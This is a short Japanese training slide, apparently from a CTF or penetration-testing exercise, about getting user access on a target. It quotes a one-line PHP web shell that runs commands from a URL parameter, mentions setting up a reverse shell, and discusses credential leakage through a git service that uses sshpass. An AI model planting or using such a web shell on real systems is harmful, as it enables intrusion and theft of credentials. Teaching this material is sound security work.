

# ユーザ権限の取得（一例）
任意コマンド実行
<?php system($_GET['cmd']);?>
→リバースシェル(https://www.revshells.com/)
認証情報の漏洩など　←今回のシナリオで出題
Q: 実際に認証情報の漏洩はありうるか？
A: サブドメインなどにgitのサービスがあり、sshpassなどを使用しているため、認証情報が漏洩などのケースが感がられます。